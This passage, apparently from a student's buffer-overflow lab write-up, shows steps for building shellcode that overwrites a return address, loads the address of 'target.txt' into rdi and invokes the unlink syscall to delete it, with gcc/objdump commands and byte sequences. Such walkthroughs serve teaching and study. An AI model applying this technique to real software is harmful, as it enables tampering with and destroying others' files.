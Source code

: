 At first I thought this code would go right after my malicious 
address above but I quickly realized that I had to move the 
address of my target file (the file I wanted to delete) into 
the rdi register first in order for unlink to work on the right file. 

6. Finding the byte code to move target.txt into the rdi register 
was my next step. To do this I had to find the address of where 
target.txt is going to be. I am going to put target.txt after my 
malicious code so I need to see how many bytes my malicious code 
is and use that to determine the address of target.txt. 
Because I need the target address to finish my malicious code, I 
decided to for now use the byte code for moving the address of the 
end of the return address to rdi as a place holder. This way I can 
see how many bytes my malicious code will take up, thus allowing me 
to replace the end of the return address in the move to the actual address of target.txt.  

To do this I created a file called inst.s and put my move into it, shown below:

	mov $0x7fffffffcf60, %rdi

The address above is obviously not right yet but I am using it as a place holder to find what the address of target will be. I then compiled the file using the command:

gcc -c inst.s

This gave me a .o file that I could use objdump on. I then used objdump to get the byte code for the move:

objdump -d inst.o

The output is below:

0000000000000000 <.text>:
   0:	48 bf 60 cf ff ff ff 	movabs $0x7fffffffcf60,%rdi
   7:	7f 00 00 

After taking the byte code and adding it to my malicious code before the syscall, I had this:

	60 cf ff ff ff 7f 00 00 48 bf 60 cf ff ff ff 7f 00 00 b8 57 00 00 00 0f 05

Looking at the above bytes, if we don't include the bytes 
replacing the return address, target.txt will be placed 17 bytes 
after the end of the return address and 177 after the start of 
the buffer. Now that I know this, I can get the correct address 
of target.txt by adding 17 to the return address. 
	
	0x7fffffffcf60 + 0x11 (17 in hex) = 0x7fffffffcf71

Replacing mov $0x7fffffffcf60, %rdi with mov $0x7fffffffcf71, %rdi my objdump output was:

	0000000000000000 <.text>:
   0:	48 bf 71 cf ff ff ff 	movabs $0x7fffffffcf71,%rdi
   7:	7f 00 00 

I then updated my malicious byte code:

	60 cf ff ff ff 7f 00 00 48 bf 71 cf ff ff ff 7f 00 00 b8 57 00 00 00 0f 05

7. My next step was to convert the file name target.txt into 
byte code before appending it to the end of my malicious byte code. 
To do this I looked up an ASCII table and converted each letter to byte code:
